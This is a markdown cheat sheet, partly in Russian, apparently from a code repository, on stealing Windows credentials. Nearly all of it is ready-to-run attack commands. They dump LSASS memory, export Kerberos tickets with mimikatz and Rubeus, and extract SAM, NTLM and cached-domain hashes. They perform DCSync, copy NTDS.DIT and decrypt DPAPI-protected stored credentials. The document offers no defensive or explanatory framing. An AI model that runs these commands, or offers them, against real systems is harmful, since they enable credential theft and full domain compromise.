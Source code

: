 ## Извлечение Kerberos-tickest через дамп виртуальной памяти:
**Три способа дампа памяти:**  
1) taskmgr.exe → ПКМ по lsass.exe → дамп памяти;  
2) rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full  
3) procdump.exe -ma lsass.exe /accepteula.  
  
Если дамп удалось создать, то билеты можно безопасно извлечь уже на своей стороне:  
mimikatz.exe -> sekurlsa::Minidump lsass.dmp -> sekurlsa::tickets /export  
  
## Извлечение Kerberos-tickest (Rubeus):  
**Список доступных тикетов**: Rubeus.exe triage  
**Извлекаем TGT пользователя**: Rubeus.exe dump /luid:0xfffff /service:krbtgt /nowrap  
**Aditional information**: Tickets for the service name krbtgt are Ticket Granting Tickets (TGTs) and others are Ticket Granting Service Tickets (TGSs).  

## Извлечение хешей SAM (нужны учетные данные пользователя):  
secretsdump.py [domain]/[username]:[password]@[TARGET IP]  

## Извлечение хешей SAM (mimikatz):  
\mimikatz.exe token::elevate lsadump::sam exit  

## Извлечение NTLM/plaintext passwords (mimikatz):  
\mimikatz.exe token::elevate sekurlsa::logonpasswords exit  

## Извлечение Kerberos Encryption Keys (mimikatz): extract aes256_hmac value  
\mimikatz.exe token::elevate sekurlsa::ekeys exit  

## Domain cached credentials:  
Позволяет исользовать учетные данные домена, если нет связи с DC.   
\mimikatz.exe token::elevate lsadump::cache exit  

## DCSync (mimikatz):  
\mimikatz.exe token::elevate lsadump::dcsync exit  

## Powershell mimikatz:  
1) Invoke-Mimikatz -DumpCreds  
2) Invoke-Mimikatz -DumpCreds -ComputerName@("comp1","comp2")  

## DCSync with Kiwi:  
load kiwi  
dcsync_ntlm username  

## Manualy dump registry with Reg:
reg.exe save hklm\sam c:\temp\sam.save -> reg.exe save hklm\security c:\temp\security.save -> reg.exe save hklm\system c:\temp\system.save

**Crack dumped registry data**:  
1. creddump7\pwdump.py system sam  
2. secretsdump.py -system system -sam sam LOCAL  

## Retrieval of NTDS.DIT with ntdsutil:  
ntdsutil "activate instance ntds" ifm "create full C:\temp\ntdsutil" quit quit  

## Dump of LSASS with ProcDump:  
C:\Users\Administrator\Downloads\procdump.exe -accepteula -64 -ma lsass.exe c:\temp\lsass.dmp  

## Dump of LSASS with pd:  
C:\Users\Administrator\Downloads\pd.exe -p 552 > c:\temp\lsass.dump  

## Dump of LSASS with Minidump:  
Import-Module c:\users\administrator\downloads\PowerSploit-master\Exfiltration\Out-Minidump.ps1  
Get-Process lsass | Out-Minidump -DumpFilePath c:\temp  

## Retrieval of NTDS.DIT with NinjaCopy:  
**Local**:  
1) Import-Module C:\Users\Administrator\Downloads\PowerSploit-master\Exfiltration\Invoke-NinjaCopy.ps1  
2) Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -LocalDestination "c:\temp\ntds.dit"  

**Remote**:  
1) Import-Module C:\Users\Administrator\Downloads\PowerSploit-master\Exfiltration\Invoke-NinjaCopy.ps1  
2) Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -LocalDestination "c:\temp\ntds.dit" -ComputerName "WIN-25U0PFAB511"  

## Credentials manager (Seatbelt, Mimikatz):  
**List of credentials**:  
 - vaultcmd /list  
 - Seatbelt.exe WindowsVault //(The encrypted credentials stored in the users' "Credentials" directory)  
 - Seatbelt.exe WindowsCredentialFiles  
 - dir C:\Users\username\AppData\Local\Microsoft\Credentials  

**Obtain master key for decrypt stored credentials**:  
1) Mimikatz 1: sekurlsa::dpapi  
2) Mimikatz 2: dpapi::masterkey /in:C:\Users\username\AppData\Roaming\Microsoft\Protect\SID\GUID /rpc  

**Decrypt stored credentials**:  
mimikatz dpapi::cred /in:C:\Users\username\AppData\Local\Microsoft\Credentials\ID /masterkey:masterkeyValue  

## Scheduled Task Credentials (Mimikatz):  
**List of tasks**: dir C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials  

**Find GIUD amd master key**: 
  - dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\ID //GUID  
  - sekurlsa::dpapi //master key  

**Decrypt stored creds**:  
dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\ID /masterkey:masterkeyValue  


